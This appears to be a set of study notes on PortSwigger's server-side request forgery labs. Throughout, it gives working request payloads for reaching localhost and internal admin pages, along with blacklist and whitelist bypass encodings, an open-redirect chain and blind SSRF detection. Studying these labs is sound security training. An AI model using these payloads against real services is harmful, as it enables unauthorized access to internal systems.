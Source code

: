 ### Lab: Basic SSRF against the local server
> Note: The administrative interface might listen on a different port number

Let's say there's an endpoint which accepts the following req.body:
```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```
The result of that request is returned to the client. We can change the req.body to:
```
stockApi=http://localhost/admin
```
which may return us an html for the admin page

### Lab: Basic SSRF against another back-end system
There's an endpoint that in the req.body has `stockApi=<some_url>`
Change the stockApi parameter to http://192.168.0.<to_be_brute_forced>:8080/admin

### SSRF with blacklist-based input filter
Some applications block input containing hostnames like 127.0.0.1 and localhost, or sensitive URLs like /admin. In this situation, you can often circumvent the filter using the following techniques: 
- Use an alternative IP representation of 127.0.0.1, such as 2130706433, 017700000001, or 127.1.
- Register your own domain name that resolves to 127.0.0.1. You can use spoofed.burpcollaborator.net for this purpose.
- Obfuscate blocked strings using URL encoding or case variation.
- Provide a URL that you control, which redirects to the target URL. 
- Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an http: to https: URL during the redirect has been shown to bypass some anti-SSRF filters.

#### Lab: SSRF with blacklist-based input filter
Let's say we're trying to SSRF into http://localhost/admin but the input is blacklisted
We can try to avade the blacklist by double url encoding "a" letter from /admin
And the req.body becomes: stockApi=http://127.1/%25%36%31dmin

### SSRF with whitelist-based input filters
Some applications only allow inputs that match, a whitelist of permitted values. The filter may look for a match at the beginning of the input, or contained within in it. You may be able to bypass this filter by exploiting inconsistencies in URL parsing.

The URL specification contains a number of features that are likely to be overlooked when URLs implement ad-hoc parsing and validation using this method:  
- You can embed credentials in a URL before the hostname, using the `@` character. For example:
```
https://expected-host:fakepassword@evil-host
```
- You can use the `#` character to indicate a URL fragment. For example:
```
https://evil-host#expected-host
```
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```
https://expected-host.evil-host
```
- You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request. You can also try double-encoding characters; some servers recursively URL-decode the input they receive, which can lead to further discrepancies.
- You can use combinations of these techniques together.

### Lab: SSRF with whitelist-based input filter
There's a check stock endpoint with the following req.body:
```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=2&storeId=1
```
If we change it to:
```
stockApi=http://localhost OR stockApi=http://127.0.0.1
```
We get an err:
```
External stock check host must be `stock.weliketoshop.net`
```
Which indicates that there's a whitelist that contains `stock.weliketoshop.net`

We play around with it and try the following:
```
stockApi=http://random#stock.weliketoshop.net
```
which gives us back the same error:
```
"External stock check host must be stock.weliketoshop.net"
```
which means that it treats random as the url and `stock.weliketoshop.net` as an element on the website

We can try to double-url-encode `#` character and see what we get as a response
```
stockApi=http://localhost%2523stock.weliketoshop.net
```
After double-url encoding it, we get the same err:
```
"External stock check host must be stock.weliketoshop.net"
```
But if we add `@` - we can get a response from `localhost` (which in this case contains a link to `/admin`)
```
stockApi=http://localhost%2523@stock.weliketoshop.net
```

### Open redirection
Let's say the user-submitted URL is strictly validated
But let's also say there are 2 different endpoints:
```
POST /product/stock HTTP/2 
req.body = stockApi=/product/stock/check?productId=1&storeId=1
```
And the second:
```
GET /product/nextProduct?currentProductId=1&path=/product?productId=2 HTTP/2
```

We can try to modify the req.body of the first endpoint to the following:
```
stockApi=/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin
```
And it will include the contents of /admin in the POST /product/stock response
In other words server will return  302 redirection to whatever is specified in `path` param 

## Blind SSRF vulnerabilities
- e.g. check Referer header, you can try to paste a url of your own server and see if it makes requests to it... 

> Note: It is common when testing for SSRF vulnerabilities to observe a DNS look-up for the supplied Collaborator domain, but no subsequent HTTP request. This typically happens because the application attempted to make an HTTP request to the domain, which caused the initial DNS lookup, but the actual HTTP request was blocked by network-level filtering. It is relatively common for infrastructure to allow outbound DNS traffic, since this is needed for so many purposes, but block HTTP connections to unexpected destinations. 

### Lab: Blind SSRF with out-of-band detection
The lab is very simple. The server extracts value from Referer header and makes a request to the url that is specified in the referrer header.

### Url validation bypass cheat sheet
https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet

